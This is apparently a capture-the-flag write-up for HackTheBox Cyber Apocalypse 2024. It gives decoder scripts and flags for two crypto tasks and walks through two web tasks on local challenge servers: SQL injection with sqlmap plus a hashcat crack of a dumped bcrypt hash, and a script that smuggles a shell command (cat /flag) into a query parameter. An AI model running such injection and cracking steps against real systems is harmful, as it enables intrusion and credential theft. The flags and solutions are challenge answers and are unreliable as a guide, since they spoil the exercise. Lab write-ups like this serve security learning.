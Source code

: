 # Cyber Apocalypse 2024: Hacker Royale Write-up

<img src="https://ctf.hackthebox.com/storage/ctf/banners/DREwio2TXADvSLScO07rux2olm6vjUoEXQPPAKBC.jpg" width="500" height="288">

## Crypto

### Task - Primary Knowledge

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7a2c26a-40e2-448d-a40c-e71cf8661756)

Decoder

    import math
    from Crypto.Util.number import long_to_bytes
    
    def decrypt(c, n, e):
        phi = (n - 1) // 2
        d = pow(e, -1, phi)
        m = pow(c, d, n)
        return long_to_bytes(m)
    
    n = 144595784022187052238125262458232959109987136704231245881870735843030914418780422519197073054193003090872912033596512666042758783502695953159051463566278382720140120749528617388336646147072604310690631290350467553484062369903150007357049541933018919332888376075574412714397536728967816658337874664379646535347
    e = 65537
    c = 15114190905253542247495696649766224943647565245575793033722173362381895081574269185793855569028304967185492350704248662115269163914175084627211079781200695659317523835901228170250632843476020488370822347715086086989906717932813405479321939826364601353394090531331666739056025477042690259429336665430591623215
    
    decrypted_message = decrypt(c, n, e)
    print(decrypted_message)

FLAG:

    HTB{0h_d4mn_4ny7h1ng_r41s3d_t0_0_1s_1!!!}

### Task - Makeshift

![image](https://github.com/zer00d4y/writeups/assets/128820441/8775b769-6274-43c6-a9b5-6ec4cb68d384)

Decoder

    def decode_flag(encoded_flag):
        decoded_flag = ''
        for i in range(0, len(encoded_flag), 3):
            decoded_flag += encoded_flag[i+2]
            decoded_flag += encoded_flag[i]
            decoded_flag += encoded_flag[i+1]
        return decoded_flag[::-1]
    
    encoded_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
    decoded_flag = decode_flag(encoded_flag)
    print(decoded_flag)

FLAG:

    HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}

## WEB

### Task - KORP Terminal

We can see the web authentication interface.

![image](https://github.com/user-attachments/assets/550917ed-ef90-4685-914e-09a39ef3aa0a)

Try to login and intercept the request.

Request:

    POST / HTTP/1.1
    Host: localhost:1337
    Content-Length: 27
    Cache-Control: max-age=0
    sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Linux"
    Upgrade-Insecure-Requests: 1
    Origin: http://localhost:1337
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: http://localhost:1337/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
    Connection: close
    
    username=test*&password=test*

Now, we can save the request and test for sql injection.

### SQL-Map

`sqlmap -r request.txt --ignore-code 401`

![image](https://github.com/user-attachments/assets/2bec84ee-0b66-4245-b3e4-679979f5f7a3)



![image](https://github.com/user-attachments/assets/46b39c28-852f-4724-8fb3-2f0cdc16523f)

Hash:

    $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.

### Hashcat 

It's a bcrypt hashed password, cracking it with hashcat!

`hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt`


    $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
    Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
    Time.Started.....: Tue Dec 31 11:42:17 2024 (1 min, 5 secs)
    Time.Estimated...: Tue Dec 31 11:43:22 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:       22 H/s (5.95ms) @ Accel:6 Loops:16 Thr:1 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 1404/14344385 (0.01%)
    Rejected.........: 0/1404 (0.00%)
    Restore.Point....: 1368/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
    Candidate.Engine.: Device Generator
    Candidates.#1....: lacoste -> harry
    Hardware.Mon.#1..: Util: 80%

Now we have credentials for admin, login and get the flag!

### Task - TimeKORP

![image](https://github.com/user-attachments/assets/ce4af417-81f3-4f8b-b93f-3913a91b8164)

Solution:

    import requests
    
    host, port = 'localhost', 1337
    HOST = 'http://%s:%s/' % (host, port)
    
    r = requests.get(HOST, params={ 'format': "'; cat /flag || '" })
    print(r.text)

FLAG:

    HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}
